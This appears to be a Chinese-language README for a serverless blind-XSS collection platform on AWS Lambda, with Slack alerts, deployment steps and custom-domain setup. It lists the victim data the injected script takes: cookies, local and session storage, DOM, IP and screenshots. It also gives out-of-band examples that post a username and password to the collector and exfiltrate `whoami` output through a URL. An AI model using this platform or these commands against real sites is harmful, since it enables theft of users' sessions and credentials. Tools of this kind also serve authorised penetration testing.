 # Ass
The AWS Lambda Serverless Blind XSS App

AWS Lambda很容易被Dow(Denial of Wallet)攻击，比如发起大量http请求消耗资源，导致信用卡暴增。所以建议在API Gateway的使用计划新增接口请求限制。

利用VPS配置XSS平台太麻烦了，如果利用AWS的Lambda那不就是一个域名的事情么？剩下的环境配置、HTTPS证书、隐私性、VPS续费都不用管了，
所以根据[xless](https://github.com/mazen160/xless)重写了Lambda平台的XSS，利用slack机器人通知的方式代替邮件或者短信

XSS有四个URL可用，部署的时候建议修改不同的地址：
- `/msg` [OOB场景1](#OOB场景1)
- `/404` [OOB场景2](#OOB场景2)
- `/example` 查看js插入例子
![example.png](./images/example.png)

## :warning: 准备工作
- AWS账号
- Slack账号，包括一个slack App的通知机器人和上传图片需要的Auth Token
- 自定义域名(可选)

## :rocket: 部署
#### Slack 
[创建Slack的App](https://api.slack.com/apps),创建之后点进APP获取webhook和Token, webhook使用来通知机器人，Token可以使用`xoxb`开头的OAuth token，用于上传图片：

![slack.png](./images/slack.png)

#### AWS Lambda
##### 部署Lambda
修改`app.py`的 `Token,Bot`为你自己的信息:

```
virtualenv venv -p python3
. venv/bin/activate
sls plugin install -n serverless-wsgi
sls plugin install -n serverless-python-requirements
sls deploy #部署到aws
sls wsgi serve #本地测试
``` 
##### 绑定自定义域名
首先在域名提供商更改ns的地址，使用Route 53服务管理域名，设置自定义域名步骤：[how-to-edge-optimized-custom-domain-name](https://docs.aws.amazon.com/apigateway/latest/developerguide/how-to-edge-optimized-custom-domain-name.html)，总结来说如下：
1. 在API Gateway增加自定义域名，选择 Edge-optimized，在API映射选择创建好的lambda函数
2. 为域名配置ACM证书
3. 配置好之后得到一个`*.cloudfront.net`格式的域名
4. 在Route 53设置cname别名，cloudflare家不支持

## :incoming_envelope: 收集的信息

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address
* Screenshot


![xss.png](./images/xss.png)



## :satellite: Out-of-Band (OOB)
#### OOB场景1
在网站插入JS获取敏感信息传输到远程服务器，注意使用JSON格式：
```
http https://example.com/msg "UserName=admin" "Password=admin"  -v
```
![oob](./images/msg.png)

#### OOB场景2
命令执行外带到远程http服务：
```
http https://example.com/404/`whoami`
```
![oob](./images/oob.png)

### TODO
* 每次需要改JS的时候需要重新部署Lambda
